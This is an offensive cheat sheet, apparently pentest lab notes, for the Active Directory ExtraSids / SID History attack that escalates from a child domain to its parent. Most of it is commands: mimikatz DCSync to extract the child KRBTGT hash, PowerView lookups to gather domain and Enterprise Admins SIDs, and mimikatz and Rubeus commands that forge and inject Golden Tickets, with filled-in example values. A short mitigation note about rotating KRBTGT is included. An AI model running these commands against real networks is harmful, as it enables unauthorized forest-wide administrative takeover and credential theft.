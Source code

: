 Child -> Parent Trusts - from Windows
# SID History Abuse Cheat Sheet

## Overview
- **What it is**: sidHistory attribute stores previous SIDs from migrations (e.g., user moves domains, old SID added for resource access continuity).
- **How it works**: On login, all SIDs (including history) added to access token; determines resource access.
- **Abuse potential**: Inject privileged SID (e.g., Domain Admin) into controlled account's sidHistory for priv esc/persistence.
  - Enables DCSync, Golden Ticket creation, or TGT for any account.
- **ExtraSids Attack**: Escalate from child to parent domain in same forest (no SID Filtering within forest; filtering only cross-forest trusts).
  - Inject Enterprise Admins SID (parent) into child domain account; gain forest-wide admin access.
  - Creates Golden Ticket from child to compromise parent without group membership.
- **Mitigation**: Rotate KRBTGT password (invalidates Golden Tickets); do after compromise/pen test.
- **Notes**: Works same-domain or cross-domain; target user can be fake/non-existent for Golden Ticket.

## Requirements for ExtraSids (Child -> Parent)
- KRBTGT NT hash (child domain): For signing Golden Ticket.
- SID (child domain).
- Target user name (child domain; can be fake like "hacker").
- FQDN (child domain).
- Enterprise Admins SID (parent/root domain).

## Gathering Data
- **KRBTGT NT Hash**: Use DCSync as Domain Admin (child).
  ```
  mimikatz # lsadump::dcsync /user:CHILD_DOMAIN\krbtgt
  ```
  - Outputs NTLM hash (e.g., 9d765b482771505cbe97411065964d5f).
- **Child Domain SID**: From DCSync output or PowerView.
  ```
  Get-DomainSID
  ```
  - Example: S-1-5-21-2806153819-209893948-922872689
- **Enterprise Admins SID (Parent)**: PowerView or Get-ADGroup.
  ```
  Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
  ```
  - Or: `Get-ADGroup -Identity "Enterprise Admins" -Server "PARENT_DOMAIN"`
  - Example: S-1-5-21-3842939050-3880317879-2865463114-519
- **Confirm No Access (Pre-Attack)**: Test parent DC share.
  ```
  ls \\PARENT_DC.FQDN\c$
  ```
  - Expect: Access denied.

## Attack Execution - Mimikatz
- **Create Golden Ticket with Extra SID**:
  ```
  mimikatz # kerberos::golden /user:TARGET_USER /domain:CHILD_FQDN /sid:CHILD_SID /krbtgt:CHILD_KRBTGT_NT /sids:PARENT_EA_SID /ptt
  ```
  - Example:
    ```
    kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
    ```
  - /ptt: Pass-the-Ticket (injects into session).
- **Verify Ticket in Memory**:
  ```
  klist
  ```
  - Look for: Client/Server with child domain, encryption type, flags.
- **Test Access**: Access parent resources (e.g., DC share).
```
  ls \\PARENT_DC.FQDN\c$
```


## Attack Execution - Rubeus
- **Create Golden Ticket with Extra SID**:
  ```
  .\Rubeus.exe golden /rc4:CHILD_KRBTGT_NT /domain:CHILD_FQDN /sid:CHILD_SID /sids:PARENT_EA_SID /user:TARGET_USER /ptt
  ```
  - Example:
    ```
    .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
    ```
  - /rc4: NT hash (RC4 equivalent).
- **Verify Ticket in Memory**:
  ```
  klist
  ```
  - Similar to Mimikatz output.
- **Test Access**: Same as Mimikatz (e.g., DCSync parent).

## Performing a DCSync Attack

```powershell-session
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```
When dealing with multiple domains and our target domain is not the same as the user's domain, we will need to specify the exact domain to perform the DCSync operation on the particular domain controller. The command for this would look like the following:

```powershell-session
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```

---
## Key Tools
- **Mimikatz**: DCSync for KRBTGT, kerberos::golden for injection.
- **Rubeus**: golden for injection (alternative to Mimikatz).
- **PowerView**: Get-DomainSID, Get-DomainGroup for SIDs.
- **Built-in**: Get-ADGroup (for SIDs), klist (verify tickets), ls (test access).
- **Tips**: Post-attack, rotate KRBTGT; use for forest compromise from child; fake users work for tickets.